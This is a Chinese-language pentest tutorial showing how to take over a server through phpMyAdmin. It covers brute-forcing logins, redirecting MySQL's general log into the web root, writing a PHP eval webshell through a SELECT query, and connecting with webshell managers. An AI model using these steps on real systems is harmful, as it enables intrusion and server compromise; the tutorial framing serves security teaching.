






# 网络安全入门：P106：利用phpMyAdmin全局日志写入木马（GetShell）教程 🔓

在本节课中，我们将学习如何利用phpMyAdmin数据库管理工具的一个特定漏洞——全局日志功能，来获取目标服务器的控制权（即GetShell）。我们将从信息收集开始，逐步演示如何通过修改日志路径并写入恶意代码，最终实现对目标系统的控制。

---

## 概述

phpMyAdmin是一个广泛使用的MySQL数据库网页管理工具。在某些配置下，攻击者可以利用其“全局日志”功能，将日志文件路径修改为Web服务器可访问的目录，并向其中写入一句话木马，从而获得一个WebShell，进而控制服务器。

上一节我们介绍了漏洞的基本背景，本节中我们来看看具体的利用步骤。

---

## 第一步：信息收集与登录

首先，我们需要找到并登录目标phpMyAdmin管理界面。这通常需要账号和密码。

以下是获取登录凭证的一种方法：

1.  **定位目标**：通过搜索引擎或扫描工具，发现存在phpMyAdmin登录页面的目标地址（例如：`http://target.com/phpmyadmin/`）。
2.  **使用破解工具**：为了提高效率，可以使用专门的phpMyAdmin密码破解工具。
    *   工具通常需要一个目标URL列表文件（如 `targets.txt`）。
    *   工具内置了常见的默认账号（如 `root`, `admin`）和密码字典。
    *   启动任务后，工具会自动尝试组合进行爆破。

**核心操作（示例）**：
*   准备目标列表文件：`targets.txt`
*   工具命令行示例（概念性）：`phpmyadmin-cracker -f targets.txt -u userlist.txt -p passlist.txt`
*   成功爆破后，会输出类似结果：`[+] Found: http://target.com/phpmyadmin/ - root:root`

获得账号密码（例如 `root:root`）后，即可成功登录phpMyAdmin管理后台。

---

## 第二步：开启并劫持全局日志

登录后，我们的核心思路是：修改MySQL的全局日志设置，将日志文件指向一个Web可访问的路径，这样我们写入日志的内容就能通过浏览器访问到。

上一节我们成功登录了系统，本节中我们来看看如何操作数据库日志。

1.  **检查当前日志状态**：
    在phpMyAdmin的SQL执行窗口中，输入以下命令查询全局日志是否开启及日志文件位置：
    ```sql
    SHOW GLOBAL VARIABLES LIKE ‘general_log%’;
    ```
    执行后，你会看到两个关键变量：
    *   `general_log`: 值为 `OFF` 表示日志功能关闭，`ON` 表示开启。
    *   `general_log_file`: 当前日志文件的存放路径（通常是一个服务器系统路径，无法通过Web直接访问）。

2.  **开启全局日志功能**：
    如果 `general_log` 是 `OFF`，需要执行以下命令开启它：
    ```sql
    SET GLOBAL general_log = ‘ON’;
    ```
    执行成功后，再次执行第一步的查询命令，确认 `general_log` 已变为 `ON`。

3.  **修改日志文件路径**：
    这是最关键的一步。我们需要将日志文件路径修改到网站根目录下，这样生成的日志文件就能通过URL访问。
    *   **首先，确定网站根目录**。可以通过之前信息收集发现的探针页面（如 `phpinfo.php`）查找 `_SERVER[‘DOCUMENT_ROOT’]` 变量的值。
    *   **然后，构造新的日志路径**。例如，网站根目录是 `C:/phpstudy/www/`，我们想将日志文件命名为 `shell.php`，那么完整路径就是 `C:/phpstudy/www/shell.php`。
    *   执行修改命令：
    ```sql
    SET GLOBAL general_log_file = ‘C:/phpstudy/www/shell.php’;
    ```
    **注意**：路径中的斜杠方向需根据目标操作系统调整（Windows用`/`或`\\`，Linux用`/`）。

    执行成功后，再次查询日志状态，确认 `general_log_file` 已更新为我们设置的Web路径。

---

## 第三步：向日志中写入木马

现在，任何在phpMyAdmin中执行的SQL语句都会被记录到我们指定的 `shell.php` 文件中。我们可以通过执行一个特殊的SQL查询，将一句话木马代码写入这个“日志文件”。

以下是构造木马并写入的步骤：

1.  **构造恶意SQL语句**：
    我们需要执行一个SELECT查询，其查询内容本身就是PHP木马代码。这样，这段代码就会被当作普通日志文本写入 `shell.php` 文件。
    ```sql
    SELECT ‘<?php @eval($_POST[“cmd”]);?>’
    ```
    **代码解释**：
    *   `<?php ... ?>`: PHP代码标签。
    *   `@eval(...)`: 执行括号内字符串代表的PHP代码。`@`符号用于抑制错误信息。
    *   `$_POST[“cmd”]`: 接收来自HTTP POST请求中名为 `cmd` 的参数值。
    *   整段代码的含义是：这个PHP文件会执行攻击者通过POST请求发送过来的任意PHP代码。

2.  **执行SQL语句**：
    在phpMyAdmin的SQL窗口中执行上述语句。由于全局日志已开启，这条`SELECT`语句（包括我们构造的PHP代码）会被完整地记录到 `general_log_file` 指定的文件（即 `shell.php`）中。

3.  **验证木马文件**：
    在浏览器中访问我们设定的日志文件路径，例如：`http://target.com/shell.php`。
    *   如果页面空白或没有报错（如404），通常表示文件存在且PHP语法无错误，木马已成功写入。
    *   可以查看文件源代码（或通过文件管理器查看文件内容），确认其中包含我们写入的`<?php @eval($_POST[“cmd”]);?>`代码。

---

## 第四步：连接WebShell控制服务器



成功写入木马文件后，`shell.php` 就成为了一个WebShell。我们可以使用中国菜刀、蚁剑、冰蝎等WebShell管理工具来连接它。



以下是使用工具连接的基本原理：

1.  **连接配置**：
    *   **Shell地址**：填写木马文件的URL，如 `http://target.com/shell.php`。
    *   **连接密码**：填写木马中定义的密码，即我们代码中的 `cmd`（对应 `$_POST[“cmd”]`）。
    *   **脚本类型**：选择 `PHP`。

2.  **执行命令**：
    连接成功后，你可以在管理工具中执行系统命令（如 `whoami`, `ipconfig`, `ls`）、浏览目录、上传/下载文件等，从而完全控制该Web服务器。

**重要提醒**：此操作仅用于授权安全测试和学习。未经授权对他人系统进行此类操作是违法行为。

---

## 总结





本节课中我们一起学习了利用phpMyAdmin全局日志功能GetShell的完整流程：



1.  **信息收集与登录**：通过工具爆破或利用弱口令获取phpMyAdmin后台登录权限。
2.  **日志功能配置**：开启`general_log`，并将`general_log_file`路径修改到Web可访问目录。
3.  **写入恶意代码**：通过执行一个包含PHP木马代码的SELECT查询，将木马写入日志文件。
4.  **获取控制权**：访问该日志文件（现已变成WebShell），使用专业工具连接，从而执行系统命令。



这种方法的核心在于**灵活利用应用程序的功能（日志）和配置不当（路径可写可访问）**，将合法的日志文件转变为恶意的命令执行脚本。理解这个原理对于学习其他类型的漏洞利用也很有帮助。请务必在合法、授权的环境中进行实践。